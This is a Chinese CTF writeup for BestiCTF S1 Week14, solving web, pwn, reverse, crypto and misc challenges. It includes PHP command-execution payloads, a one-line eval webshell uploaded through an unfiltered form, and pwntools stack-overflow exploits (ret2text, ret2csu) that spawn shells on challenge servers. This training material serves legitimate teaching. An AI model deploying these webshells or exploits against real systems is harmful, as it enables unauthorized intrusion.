





# BestiCTF S1 Week14 周赛 Writeup

[TOC]


## 参赛情况




## Web

### [我的第一个RCE](https://www.nssctf.cn/team/problem/6235)

#### 题目描述

***你能拿她学校的shell，但永远拿不了她的shell***

不瞒你说，这在 CTF 比赛中连签到题都算不上。

#### 解题思路


打开网站，根据提示，访问`/shell.php`。



参数 cmd 可以执行 PHP 命令，POST 或 GET 参数输入`cmd=system('cat /flag');`得到 flag（记得执行 PHP 命令时最后要加分号）。


#### EXP

cmd 参数还可以为：

**命令执行**：

* `system('cat /flag');`
* `echo shell_exec('cat /flag');`
* `echo exec('cat /flag');`
* `passthru('cat /flag');`
* ``echo `cat /flag` ``
* `echo fread(popen('cat /flag',"r"),256);`

**文件读取**：

* `include('/flag');`
* `require('/flag');`
* `include_once('/flag');`
* `require_once('/flag');`
* `show_source('/flag');`
* `highlight_file('/flag');`
* `echo fread(fopen('/flag','r'),256);`
* `echo file_get_contents('/flag');`
* `readfile('/flag');`

#### 总结

* 命令执行（RCE）
	* 简单命令执行


### [科电院文件存储系统](https://www.nssctf.cn/team/problem/6244)

#### 题目描述

尽情地在这个新系统存储你的文件吧~

#### 解题思路


打开网站，是一个上传文件的网页，编程语言是 PHP：


尝试上传，发现没有任何过滤，上传 webshell ，内容如下：

```php
<?php @eval($_REQUEST['shell']);?>
```

上传后，打开 webshell url，直接输入命令即可得到 flag：


或者使用蚁剑连接：


也可以在根目录找到 flag：


#### 总结
* 文件上传


### [捉迷藏](https://www.nssctf.cn/team/problem/6245)

#### 题目描述

***快点快点藏起来，快点快点藏起来***

为什么打开网站是空白的呢？

#### 解题思路


打开网站，发现没有什么东西，根据 CTF 作战手册第一守责：`遇 Web，先扫描`，使用 dirsearch 扫描目录：


喜报，发现了 `www.zip`（一般为网站备份文件），赶紧访问 `/www.zip` 下载，解压，里面有两个 PHP 文件，可以看到 index.php 里基本上没什么东西。还有一个 `h4ll0_W0r1d.php`，审阅代码：


```php
<?php

function encrypt($data, $key){
    $data = str_split($data);
    $key = str_split($key);
    $res = '';
    for($i=0; $i<count($data); $i++){
        $res .= chr(ord($data[$i]) ^ ord($key[$i % count($key)]));
    }
    return base64_encode($res);
}

$target = "OAESPhJGazhIRhA=";
$ps = "p1eas4_g1ve";

if(isset($_POST['cmd'])){
    if(isset($_POST['key']))
    {
        $key = $_POST['key'];
        if(encrypt($key, $ps) !== $target){
            die("");
        }
        echo "<pre>";
        $cmd = ($_POST['cmd']);
        @eval($cmd);
        echo "</pre>";
        die;
    }
}

?>
```

可以看出，cmd 参数可以执行命令，但是我们需要有 key，key 异或 `p1eas4_g1ve` 后再 base64 编码后的结果是 `OAESPhJGazhIRhA=`。我们只需要逆向就可以了，使用 cyberchef 解密（`file:///CyberChef/CyberChef_v10.19.2.html#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'Latin1','string':'p1eas4_g1ve'%7D,'Standard',false)&input=T0FFU1BoSkdhemhJUmhBPQ`）：



  得到 key 为`H0w_ar4_y0u`，访问`/h4ll0_W0r1d.php`，输入到 key 参数，用 cmd 参数执行命令即可得到 flag：



同样可以用蚁剑连接，只不过要在 请求信息 里输入参数 key：


根目录得到 flag：


#### 总结
* 信息搜集
	* 目录扫描
* PHP 代码审计


## Pwn

### [如何与她心连心](https://www.nssctf.cn/team/problem/6237)

#### 题目描述

***心连心，手牵手，一起向前走。***

Netcat是一款功能强大的网络工具，可以用于网络通信、文件传输、端口扫描、反向连接等多种场景，被称为网络界的瑞士军刀，请尝试使用它完成这道题目吧，同时可能也需要你有一点基础的`Linux`常识。

#### 解题思路

方法较多。

##### nc

直接使用 nc 连接即可执行命令，得到flag：


##### pwntool

python 代码如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

# 从 pwn 库中导入所有功能
from pwn import *

# 连接到远程服务器，地址为 "node6.anna.nssctf.cn"，端口为 25788
p = remote("node6.anna.nssctf.cn", 25788)

# 发送命令 'cat flag'，尝试读取 flag 文件的内容
p.sendline(b'cat flag')

# 进入交互模式，保持与远程服务器的连接
p.interactive()
```


##### socket

python 代码如下：

```python
import socket

# 创建一个 TCP/IP 套接字
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# 设置超时时间为 1 秒
s.settimeout(1)

# 连接到远程服务器，地址为 "node6.anna.nssctf.cn"，端口为 25788
s.connect(("node6.anna.nssctf.cn", 25788))

# 发送命令 'cat flag'，尝试读取 flag 文件的内容
s.send(b'cat flag\n')

# 初始化一个空的字节串，用于存储接收到的数据
data = b''

# 循环接收数据，直到没有更多数据为止
try:
    while True:
        # 每次最多接收 1024 字节的数据
        part = s.recv(1024)
        # 如果没有接收到数据，说明数据接收完毕，退出循环
        if not part:
            break
        # 将接收到的数据拼接到 data 变量中
        data += part
except socket.timeout:
    # 如果超时，说明数据接收完毕，退出循环
    pass

# 打印接收到的完整数据
print(data.decode())

# 关闭套接字
s.close()
```


#### 总结
* nc 连接


### [选择你的目的地](https://www.nssctf.cn/team/problem/6255)

#### 题目描述

***我在海角，你却在天边，你要飞向哪里，我可不可以一起***

这个程序好像可以输入好多字符，欸，EIP怎么跳到天边了？

#### 解题思路

 本质上是简单的 ret2text。

首先 checksec 查保护：


什么保护都没有，令人感动。IDA 打开程序，分析代码，发现可溢出点：


很明显，这个 buf 大小是 256（0x100），我们却可以输入 0x200 的内容。

shift-f12 查看字符串，可以看到 `/bin/sh` ，由此可以找到调用这个字符串的后门函数：


我们可以通过覆盖 vuln 函数的返回地址，使其跳转到 backdoor 函数，运行后门，代码如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# 设置日志级别为调试（如果需要调试时可以取消注释）
# context.log_level = "debug"

# 连接到远程目标服务器，IP地址为127.0.0.1，端口为9999
p = remote("127.0.0.1", 9999)
# 如果需要在本地调试，可以使用以下代码启动本地进程
# p = process("./pwn-ubuntu_20.04/src/attachment")

# 加载目标ELF文件
elf = ELF("./pwn-ubuntu_20.04/src/attachment")
# 加载libc库文件
_libc = ELF('./pwn-ubuntu_20.04/src/libc.so.6')

# 目标地址，通常是我们希望跳转到的函数或指令地址
target_address = 0x40115A

# 栈的长度，0x100是缓冲区长度，0x8是栈帧指针的长度
stack_len = 0x100 + 0x8

# 构造payload，填充0x100个字节的0，再加上目标地址
payload = b'\x00' * stack_len + p64(target_address)

# 发送payload到目标服务器
p.sendline(payload)

# 进入交互模式，保持与目标服务器的连接
p.interactive()
```

运行即可得到 shell，执行 `cat flag` 得到 flag：


#### 总结

- 栈溢出
	- 基础 ROP
		- ret2text


### [梦开始的时候](https://www.nssctf.cn/team/problem/6239)

#### 题目描述

***人在刚开始的时候，更容易被人利用***

岁数不大，你看着还真有点质感。

#### 解题思路

checksec 查看保护：


没啥特殊的。IDA 打开程序，没有直接后门，一眼 ret2libc，发现只有输出函数只有`write`可以用，明显是 ret2csu。

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"

p = remote("node6.anna.nssctf.cn", 22649)
elf = ELF("./pwn-ubuntu_20.04/src/attachment")
_libc = ELF('./pwn-ubuntu_20.04/src/libc.so.6')

start_address = elf.symbols['main']
ret_address = 0x4012B4
pop_rdi = 0x4012b3
csu_mov = 0x401290
csu_pop_rbx = 0x4012AA
system_offset = _libc.symbols['system']
str_bin_sh_offset = _libc.search(b'/bin/sh').__next__()
write_offset = _libc.symbols['write']

function_name = 'write'
plt_address = elf.plt['write']    #获取函数的plt表地址
got_address = elf.got[function_name]    #获取函数的got表地址
write_got_address = elf.got['write']
#获取_start函数的地址是为了方便一会返回到此处，进行第二次栈溢出。   

# 64位
context(arch="amd64",os="linux")
stack_len = 0x100 + 0x8

#获取got地址
#函数调用参数存在 RDI, RSI, RDX, RCX, R8 和 R9 寄存器
def csu(rbx, rbp, r12, r13, r14, r15, target_address):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r15 should be the function we want to call
    # rdi=edi=r12d  
    # rsi=r13
    # rdx=r14
    payload = p64(csu_pop_rbx) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15) + p64(csu_mov) + p64(0) * 7 + p64(target_address)
    return payload

payload = b'\x00'*stack_len + csu(0, 1, 1, got_address, 8, write_got_address, start_address)

p.sendline(payload)
p.recvuntil(b"Ok.\n")
write_addr = u64(p.recvline()[:8].ljust(8,b'\0'))
print(function_name + "_func_addr =",hex(write_addr))

# p.interactive() #can can need

#注入system函数
libc_base = write_addr - write_offset
payload = b'\x00'*stack_len + p64(ret_address) + p64(pop_rdi) + p64(libc_base + str_bin_sh_offset) + p64(libc_base + system_offset)

p.sendline(payload)
p.interactive()
```

#### 总结

- 栈溢出
	- 中级栈溢出
		- ret2csu

ret2csu 模板题


## Reverse

### [初见IDA](https://www.nssctf.cn/team/problem/6236)

#### 题目描述

***很多东西都是不能后悔的，编程是吗***

我们都学过如何将我们编写的C语言代码变成程序，可是你知道怎么把程序边回C语言代码吗？

#### 解题思路

首先，使用 ExeinfoPE 查壳：


没有壳。用 IDA 打开：


直接 OK 即可。


一样，直接 Yes 就好了。到达如图所示界面（或者是图形样子的，差不多，空格键切换）：


F5 反汇编为 C语言代码：


阅读代码，逻辑非常简单，判断我们输入的 flag 是否正确，我们双击“flag”变量，就可以看到 flag 的内容：


或者点击 shift+f12，可以查看程序所有的字符串，也可以找到 flag 的身影：


#### 总结

- 静态分析


### [简单的算法分析](https://www.nssctf.cn/team/problem/6254)

#### 题目描述

***把它颠倒过来吧！***

稍微分析一下就好了！

#### 解题思路

老规矩，先查壳：


经典无壳。IDA 打开，定位主函数：


可以看到，我们输入的 flag 字符串经过一个简单的加密后，与程序里的 target_str 对比，若一致则返回 Correct。加密算法如下：

```c
for ( i = 0; i < strlen(s); ++i )
      s[i] ^= s[i + 1];
// 从头开始，每一位异或它的下一位，直到倒数第二个字符
```

那我们可以逆向这个算法，也就是写出它的解码算法，如下：

```c
for ( i = strlen(s)-2; i >= 0; --i )
      s[i] ^= s[i + 1];
// 从倒数第二个字符开始往前，每一位异或它的下一位，直到第一个字符
// 因为 a^b^b = a ，也就是说 s[strlen(s)-2] ^ s[strlen(s)-1] ^ s[strlen(s)-1] == s[strlen(s)-2];
```

target_str 是密文，我们需要提取它出来到我们写的脚本中，我们首先双击它的变量名，跳转到它的存储位置：


想要复制 target_str ，有两种方式，一种是选中相关内容：


然后点击 shift+E ，即可提取出各种形式的数据，直接复制即可：


第二种方式是右键变量，点击 数组（Array），建立数组，即可成如下形式：



选中某个数字，点击 H ，可以转化为十进制形式，这样就能逐行复制了（注：其中 `2 dup(45h)`指代两个 45h ）。

编写脚本如下：

```c
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <cstring>
#include <cctype>
#include <cmath>
#include <vector>
#include <algorithm>
#include <stack>
#include <set>
#include <map>
#include <ctime>
#include <unistd.h>
#include "defs.h"
// #include <bits/stdc++.h>

using namespace std;
typedef long long LL;
typedef long double DD;

int main()
{
    unsigned char target_str[] =
{
   10,  13,   6,  28,  24,  12,   2,  89, 107,  43, 
   68, 111,  45,  65,  69,  69,  65,   1,  22,  58, 
   40,  71,  66,  30,   8,  25, 125,   0
};
    for(int i = strlen((char *)target_str)-2; i >= 0; i--)
    {
        target_str[i] ^= target_str[i+1];
    }
    for(int i = 0; i < strlen((char *)target_str); i++)
    {
        printf("%c", target_str[i]);
    }
	return 0;
}
```

运行得到 flag：


#### 总结

- 编码分析


## Crypto

### [重生之我在CTF当图灵](https://www.nssctf.cn/team/problem/6238)

#### 题目描述

***一边是计算机科学中最有诗意的概念和理论，一边是在第二次世界大战时为世界和平而解谜。***

众所周知，在第二次世界大战中，正是由于图灵对德军的恩尼格玛密码机的破译，才让盟军对德国的战略有了更深入的了解，同时也改变了战争的进程。图灵也被授予大英帝国勋章，以表彰他在战时的杰出贡献。

现在，你也有了一个破译密码机的机会，但你有远比图灵强的多的条件，你可以打开容器，使用 nc 连接后尽情的加密你想加密的东西。

> 在密码分析学中，我们一般称你将要进行的攻击模式为**选择明文攻击**，这是第二简单的一种攻击模式。

你的目标是，破译密文：`RkhwV57CjpLe1FIQTlPV9crT7MUQVnBCnMTqkvOETkNs`

`hint1` : flag 格式应该为`flag{xxx}`，其中`xxx`代表不确定数量的可打印字符，可能是大小写字母，数字或`_`或`-`。

#### 解题思路

> 娱乐题，题解仅供参考

nc 连接，可以加密我们给的明文：


多次尝试，发现三字规律，鉴定最后一层加密为 base64：


传一组零字符过去，发现得到了一组有循环的结果：


```python
from pwn import *

# context.log_level = "debug"

target = b"RkhwV57CjpLe1FIQTlPV9crT7MUQVnBCnMTqkvOETkNs"
tables = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-_{}"

p = remote("node6.anna.nssctf.cn", 25555)

p.sendline(b'\x00'*100)

p.interactive()

'''
ICQRMOWbvueBtSAkETDlm77ngbUgJBEw5Zu+54G1ICQRMOWbvueBtSAkETDlm77ngbUgJBEw5Zu+54G1ICQRMOWbvueBtSAkETDlm77ngbUgJBEw5Zu+54G1ICQRMOWbvueBtQ==

ICQRMOWbvueBtSAkETDlm77ngbUgJBEw5Zu+54G1 重复
'''
```

很符合异或加密的特征啊，密钥就是我们找到的重复值，使用 CyberChef 解密即可得到 flag：


### [人生啊](https://www.nssctf.cn/team/problem/6240)

#### 题目描述

***人生就像是公钥密码，有人拿着私钥一路畅通，有人只有公钥寸步难行***

你知道的，这只是一道99%的比赛都不会出的真正的纯签到题。

尽管这道签到题做法多样，但我希望你能尝试只靠自己写一个 python 脚本解密。

#### 解题思路

非常简单，写个 RSA 解密脚本即可。

#### EXP

```python
from Crypto.Util.number import *

c = 64694580006834507560324727414877091638024382242130655004143415388985606699900148606486090424132690912203431871774343587607141289884496610664135187255530282633954554470326364030926295086790933373198918936142964252018033138672165554452738631904151997239116940373699510770220301818885465741496734377910687895282
p = 12651369104289795000128791432376466417292698755900129819365507278103861110205138822927486625369338734843529406102584663059202972711665533116915305621909191
q = 12500990785316773406216722438673832175796231400289051364892732861688907258665354692000411292072460831243451443518966454570802271879972487983754630576051693
e = 0x10001

n = p * q
phi = (p - 1) * (q - 1)
d = inverse(e, phi)

m = pow(c, d, n)
print(long_to_bytes(m))
```

#### 总结

- RSA


### [Be养的Zout不给N](https://www.nssctf.cn/team/problem/6241)

#### 题目描述

Zout出的一道RSA，只是为什么不给N呢？

#### 解题思路

观察代码，发现使用了相同的模数 T、不同的公钥时，加密同一明文消息 p，鉴定为 共模攻击 求 p，python 代码如下：

```python
T= 110128003936195288009272676614437893565702076161880856199841021114267078867990462241223991141055307022513952941951357206918500136299060573240221061266011740675946327422023371392065567227646235031467605658802592946990742923879349078446137171733515963777185400929451632607437044247780113837194151734353095286483
hint1= 95697003497742634546552441283433477260717762191183386544859177106217944169183803453314539733932857326890146091157422693685043609372273807213096910886159158339641850651972945308084979541333402406681674218656916002441995896159667604591371698075715736530690119327073279293052053886682649870025224329170942309930
hint2= 60705524869662104476069544135580532210853593498956051666732284810706122051296453062572979942988713817144765167308683085161108464628679557361765865282837805489221676686085227874655260573596336537766387254087919780087702959516659418935796573218902529260581075041175140336808974305614931629013104838764095010673
r= 3101107613
s= 3797157839
c= 86428508587334659026842104728304873487661579984235547484037536682579508492923532357077673439914587984405569093691483237792197548112432340322819652412111412827668985383786904478236702883266316757795132949856225786868237129854071997669900031053686326330884680477732822726199422657772395195166388385540262784049
e = 0x10001

_, ss, tt = gmpy2.gcdext(r, s)
if ss < 0:
    ss = -ss
    hint1 = gmpy2.invert(hint1, T)

if tt < 0:
    tt = -tt
    hint2 = gmpy2.invert(hint2, T)

p = pow(hint1, ss, T) * pow(hint2, tt, T) % T
```

得到 p 后就可以得到 q（p 的下一个素数），接下来就随便解密了：

```python
q = next_prime(p)

phi = (p-1)*(q-1)
d = gmpy2.invert(e, phi)
m = pow(c, d, p*q)

print(long_to_bytes(m))
```

#### EXP

```python
from Crypto.Util.number import *
from gmpy2 import *

T= 110128003936195288009272676614437893565702076161880856199841021114267078867990462241223991141055307022513952941951357206918500136299060573240221061266011740675946327422023371392065567227646235031467605658802592946990742923879349078446137171733515963777185400929451632607437044247780113837194151734353095286483
hint1= 95697003497742634546552441283433477260717762191183386544859177106217944169183803453314539733932857326890146091157422693685043609372273807213096910886159158339641850651972945308084979541333402406681674218656916002441995896159667604591371698075715736530690119327073279293052053886682649870025224329170942309930
hint2= 60705524869662104476069544135580532210853593498956051666732284810706122051296453062572979942988713817144765167308683085161108464628679557361765865282837805489221676686085227874655260573596336537766387254087919780087702959516659418935796573218902529260581075041175140336808974305614931629013104838764095010673
r= 3101107613
s= 3797157839
c= 86428508587334659026842104728304873487661579984235547484037536682579508492923532357077673439914587984405569093691483237792197548112432340322819652412111412827668985383786904478236702883266316757795132949856225786868237129854071997669900031053686326330884680477732822726199422657772395195166388385540262784049
e = 0x10001

_, ss, tt = gmpy2.gcdext(r, s)
if ss < 0:
    ss = -ss
    hint1 = gmpy2.invert(hint1, T)

if tt < 0:
    tt = -tt
    hint2 = gmpy2.invert(hint2, T)

p = pow(hint1, ss, T) * pow(hint2, tt, T) % T
# print(p)

q = next_prime(p)

phi = (p-1)*(q-1)
d = gmpy2.invert(e, phi)
m = pow(c, d, p*q)

print(long_to_bytes(m))
```

#### 总结

- RSA
	- 模数相关攻击
		- 共模攻击


## Misc

### [跟我走吧](https://www.nssctf.cn/team/problem/6243)

#### 题目描述

***什么都不要问，跟着我就是了***

有时候不能只盯着眼前，不妨也关注一下后面？

#### 解题思路

> 作者：汤泽鹏 20242321

对于图片题，首先丢进winhex中：


发现Rar，说明有个压缩包，并且前面出现几个125，可疑！

把图片丢到kali中binwalk一下，得到一个要密码的压缩包。把可疑的125输进去，得到txt：


这里注意flag在注释里面，不在空城计txt里面。

#### 总结

- 隐写分析

	- 直接附加

对winhex，binwalk的常规使用。


### [ROBOT](https://www.nssctf.cn/team/problem/6242)

#### 题目描述

这是一个单身的人机的大脑数据，你能从中获取到flag么

`hint1` : cyberchef 工具，from 二进制，然后 from 十进制。

#### 解题思路

用 WinHex 打开，发现是用空格分隔的二进制。


拿 Cyberchef 解码：


发现确实非常智能，已经识别出了，点击魔法棒：


很明显是个压缩文件，点击右边那个保存按钮，得到这个压缩文件，解压，得到一个QR文件夹和一个加密压缩包。其中QR文件夹里是一堆小图片，应该是需要拼接，一共625个文件，应该是 25x25，使用 montage 合并，命令如下：

```shell
montage `ls * | sort -n` -tile 25x25 -geometry 25x25 aaa.png
```

aaa.png 得到了一张二维码，扫描得到 `Czy_Has_n0_gir1_Fri4nd`即为压缩包密码。


解压，得到 1.png，stegsolve 打开，可以发现是 LSB隐写：


提取得到 flag：


#### 总结

- 编码分析
	- Cyberchef
- 隐写分析
	- PNG 隐写
		- LSB 隐写
	- GIF 隐写
		- 空间轴隐写（拼接）
